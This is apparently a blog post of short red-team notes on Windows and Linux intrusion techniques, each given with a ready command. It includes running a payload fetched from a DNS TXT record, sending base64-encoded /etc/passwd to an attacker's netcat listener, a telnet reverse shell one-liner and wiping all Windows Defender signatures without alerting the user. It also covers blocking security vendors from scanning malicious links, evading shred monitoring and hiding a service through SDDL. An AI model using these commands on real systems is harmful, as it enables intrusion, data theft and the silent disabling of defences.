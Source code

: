 ```yaml
---
layout: post
title:  "Red Team quick detection notes"
date:   2020-09-20 16:46:24 +0200
categories: [redteam, R&D, usecases]
---
```


# Windows

## Malicious Payload in DNS Txt
Attacker can put malicious payload in DNS TXT record content of domain. So, watch out for:

```bash
powershell . (nslookup -q=txt some.domain.com)[-1]
```


---
## Curl with cancel
Except curl, wget and nc commands, attacker can use ‘cancel’ to exfiltrate data 

```bash
Attacker machine:
nc -nlvp 18110 

Victim machine:
cancel -u "$(cat /etc/passwd | base64)" -h <ip>:<port>
```

---

---

## RCE without python Bash 
After successful RCE inside container, but the container doesn't have BASH, Netcat, Python, or any of your normal revshell helpers, attacker can also use telnet

```bash
mkfifo /tmp/cth; sh -i 2>&1 </tmp/cth | telnet <atkIP> 8443 >/tmp/cth; rm /tmp/cth
```

---

---
## Explorer.exe for code Execution
Example: using explorer.exe for code execution

```powershell

explorer.exe /root,"C:\Windows\System32\calc.exe"
```
<!-- ![](assets/img/red-teams-notes/pm1.png)
![](assets/img/red-teams-notes/pm2.png)
![](assets/img/red-teams-notes/pm3.png)
-->
---

## Windows Defender signature removoal  
A bit messy, but if Windows Defender is causing you a big headache, rather than disabling it (which alerts the user), you should just neuter it by deleting all the signatures:

```powershell
"%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

---

---

Red Teamers: those pesky security vendors--like VirusTotal, PaloAlto, and Fortinet--will poke at your infrastructure and evaluate your malicious links, potentially flagging them. Use this .htaccess file to block the common ones outright: https://gist.github.com/curi0usJack/971385e8334e189d93a6cb4671238b10

---

---
## Delete file with shred
Just deleting files is not enough. To really remove them, use shred.

```bash
shred -z cthulhu.txt
```

If shred command is in monitoring for generating alert, the shred command may be caught, you can do this:

```bash
FN=cthulhu.txt; dd bs=1k count="du -sk \\"${FN}\\" | cut -f1" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```

---

---
## Hiding Windows services
This is a really nasty tip: Windows' sc.exe allows you to manually assign service permissions with SDDL syntax. This allows you to essentially make your service invisible unless defenders already know the service name.

Services.exe, Get-Service, sc.exe, all of these fail.

Hiding Windows services:

```powershell
sc sdset evilsvc "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLO
```